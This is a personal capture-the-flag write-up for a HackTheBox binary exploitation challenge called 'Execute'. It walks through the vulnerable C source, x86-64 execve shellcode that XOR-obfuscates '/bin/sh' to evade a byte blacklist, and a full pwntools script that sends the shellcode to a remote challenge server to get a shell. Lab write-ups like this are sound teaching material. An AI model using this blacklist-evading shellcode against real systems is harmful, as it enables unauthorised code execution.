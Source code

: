 # EXECUTE

Thanks to jon-brandy this challenge was solved because of him, I followed his [writeup](https://github.com/jon-brandy/hackthebox/blob/main/Categories/Pwn/Execute/README.md) and took notes for myself here.

- Information about the binary present for this challenge
```sh
execute: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=815ed65e93f716cd381035b74fa25dc5d7aa8ff5, for GNU/Linux 3.2.0, not stripped
```

- Security features in the binary
```sh
Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX disabled
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

- From above we can see that execution on stack is possible, so it's all about figuring shell code which we can execute on the stack.
- Let's review source code
```c
int main(){
    char buf[62];
    char blacklist[] = "\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67";

    setup();

    puts("Hey, just because I am hungry doesn't mean I'll execute everything");
    
    int size = read(0, buf, 60);
	   
    if(!check(blacklist, buf, size, strlen(blacklist))) {
        puts("Hehe, told you... won't accept everything");
        exit(1337);
    }

    ( ( void (*) () ) buf) ();
}
```
- From the source code we can see that there is a blacklist defined.
- Our end objective is to get and interactive shell from the server, for that we have to first see the hex value for "/bin/sh

```python
str = "/bin/sh"
s_bytes = s.encode('utf-8')
s_hex = s_bytes.hex()
s_hex
'2f62696e2f7368'
```

- From this we can see there are values that match to the blacklist, now we have to see if there is a way we can hide them, first we'll pass minimal level shellcode for checking if the detection is happening and where

```asm
mov rax, 0x68732f6e69622f   ; hex encoded value of /bin/sh
push rax                    ; push the value in rax on stack
mov rdi, rsp                ; moves the value in rsp to rdi, rsp points to the top of stack which currently has /bin/sh
xor rsi, rsi                ; zero out rsi (array of arguments in context of execve)
xor rdx, rdx                ; zero out rdx (env variable on context of execve)
mov rax, 0x3b               ; 0x3b is syscall for execve
syscall
```

- This the reponse of the first run and we were right the /bin/sh is being blacklisted.
```sh
BAD Byte --> 0x62
ASCII Value --> b
BAD Byte --> 0x69
ASCII Value --> i
BAD Byte --> 0x6e
ASCII Value --> n
BAD Byte --> 0x73
ASCII Value --> s
BAD Byte --> 0x68
ASCII Value --> h
BAD Byte --> 0xf6
ASCII Value --> ö
BAD Byte --> 0xd2
ASCII Value --> Ò
BAD Byte --> 0xc0
ASCII Value --> À
BAD Byte --> 0x3b
ASCII Value --> ;
```
- Apart from /bin/sh we can see that execve call (0x3b) is also being blacklisted, for making this work we can use 0x3a and add 1 byte to it
```asm
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp

push 0x0    ; set of push and pops leads to setting of rsi 
pop rsi     ; and rdi to 0x0
push 0x0    ; helps in removing the NUll bytes
pop rdx

push 0x3a   ; helps in bypassing the black listing of execve and helps in removing the last null character
add al, 0x1
syscall
```
- The weird part is xoring twice and the upper method are doing exactly the same thing but this one helps in removing the NULL values.

- Next step is to find a way to obfuscate the /bin/sh string. Xoring is always a cool way due to it's self-cancelling property, we can come back to our original string and avoid the check that happens with the buffer.
- Now finding the key which we can use, so the idea is that key will be a hex value which when xored with the "/bin/sh" value should not return any hex value that is present in the black list. The plan is to start from 0xfffffffffffffff and go down, but this is a brute force, fortunately for us this key itself is okay for our purpose.
we can do a bit of xoring ourself and see that the terms doesn't appear.

- Wrote a script for the same

- Final shellcode is
```asm
mov rax, 0xfffffffffffffff
push rax

mov rax, 0xfffffffffffffff ^ 0x68732f6e69622f
xor [rsp], rax
mov rdi, rsp

push 0x0
pop rsi
push 0x0
pop rdx

push 0x3a
pop rax
add al, 0x1
syscall
```
- Now we can use the following python script for getting shell on the server.
```python
from pwn import *

exe = './execute'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

# sh = process(exe)
sh = remote('94.237.49.212', 30995)

blacklist = b"\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67"

payload = '''    
mov rax, 0xfffffffffffffff
push rax

mov rax, 0xfffffffffffffff ^ 0x68732f6e69622f
xor [rsp], rax
mov rdi, rsp

push 0x0
pop rsi
push 0x0
pop rdx

push 0x3a
pop rax
add al, 0x1
syscall
'''

shell_code = asm(payload)
for byte in shell_code:
    if byte in blacklist:
        print(f'BAD Byte --> 0x{byte:02x}')
        print(f'ASCII Value --> {chr(byte)}')

sh.sendline(shell_code)
sh.interactive()
```
*Completed*
